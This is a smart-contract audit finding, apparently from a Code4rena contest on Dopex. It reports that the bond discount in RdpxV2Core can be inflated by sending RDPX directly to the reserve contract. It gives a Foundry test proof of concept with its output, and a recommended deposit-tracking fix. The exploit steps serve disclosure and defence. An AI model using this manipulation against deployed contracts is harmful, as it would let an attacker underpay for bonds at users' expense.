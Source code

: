 ## [01] bondDiscount can be manipulated via direct transfer to Treasury Reserve

[`bondDiscount`](https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/core/RdpxV2Core.sol#L1163) incorporates the Treasury Reserves () in it's calculation. The higher the reserves the higher the discount applied to a bond. There is potential for RDPX to lose significant value (hack or manipulation somewhere in the Dopex ecosystem), a direct transfer of RDPX made to the treasury reserve to increase the discount and reduce the ETH required to mint a bond that can then be redeemed for DPX/ETH which is 1:1 to ETH. There's no information on the RDPX price oracle and it is out of scope however if RDPX were to lose value and the Oracle was not timely in updating the price then there's potential for discount manipulation.

Admittedly a number of things need to go wrong (hence raising as a low instead of medium) however oracle manipulation is a common attack vector and once manipulated attackers will look to use a manipulated asset (RDPX) to redeem one that is greater value (ETH). Bonds that were minted at a higher discount would still need to wait for maturity before being redeemed. Dopex would be able to pause the contracts, stop redemption however this would cause significant disruption to their protocol.

Paste the following test in any .t.sol file that inherits Setup.

```
  function testReservesManipulation() public {
    //rdpxPriceOracle.updateRdpxPrice(1000000);
    vm.label(address(weth), "WETH");
    vm.label(address(rdpx), "RDPX");
    vm.label(address(rdpxReserveContract), "RDPX Reserve");

    vm.startPrank(address(1337));
    rdpx.approve(address(rdpxV2Core), type(uint256).max);
    weth.approve(address(rdpxV2Core), type(uint256).max);
    vm.stopPrank();

    console.log("Reserve balance: ", rdpx.balanceOf(address(rdpxReserveContract)));
    (uint256 rdpxIn, uint256 wethIn) = rdpxV2Core.calculateBondCost(1 ether, 0);
    console2.log("RDPX before reserve manipulation", rdpxIn);
    console2.log("WETH before reserve manipulation", wethIn);
    rdpx.mint(address(1337), rdpxIn);
    weth.mint(address(1337), wethIn);
    vm.prank(address(1337));
    uint256 rt_first = rdpxV2Core.bond(1 ether, 0, address(1337));
    console2.log("Receipt Token", rt_first);

    rdpx.mint(address(this), 100_000 ether);
    rdpx.transfer(address(rdpxReserveContract), 100_000 ether);

    console.log("Reserve balance: ", rdpx.balanceOf(address(rdpxReserveContract)));
    (uint256 rdpxInManip, uint256 wethInManip) = rdpxV2Core.calculateBondCost(1 ether, 0);
    console2.log("RDPX after reserve manipulation", rdpxInManip);
    console2.log("WETH after reserve manipulation", wethInManip);
    rdpx.mint(address(1337), rdpxInManip);
    weth.mint(address(1337), wethInManip);
    vm.prank(address(1337));
    uint256 rt_second =  rdpxV2Core.bond(1 ether, 0, address(1337));
    console2.log("Receipt Token", rt_second);
  }
```

Which outputs;

```
  Reserve balance:  100000000000000000000
  Bond discount 100000000
  RDPX before reserve manipulation 1225000000000000000
  WETH before reserve manipulation 806250000000000000
  Bond discount 100000000
  Receipt Token 250000000000000000
  Reserve balance:  100098725000000000000000
  Bond discount 3163838254
  RDPX after reserve manipulation 459040436500000000
  WETH after reserve manipulation 614760109125000000
  Bond discount 3163838254
  Receipt Token 250000000000000000
```

In the output above the bondDiscount is increased by 31x with the direct transfer of RDPX to the Treasury Reserve ([`RdpxReserve.sol`](https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/reserve/RdpxReserve.sol)) contract. ETH required to mint a bond reduces by ~25% but the receipt token and the ability to redeem DPX/ETH remains the same.

Note: Bond discount is from a console2.log added to RdpxV2Core.sol after `bondDiscount` e.g. `console2.log("Bond discount", bondDiscount);`

## Recommendation

[`RdpxReserve.sol`](https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/reserve/RdpxReserve.sol) should have a `deposit()` function and a state variable to track the current reserves so that it is not vulnerable to direct deposit attacks.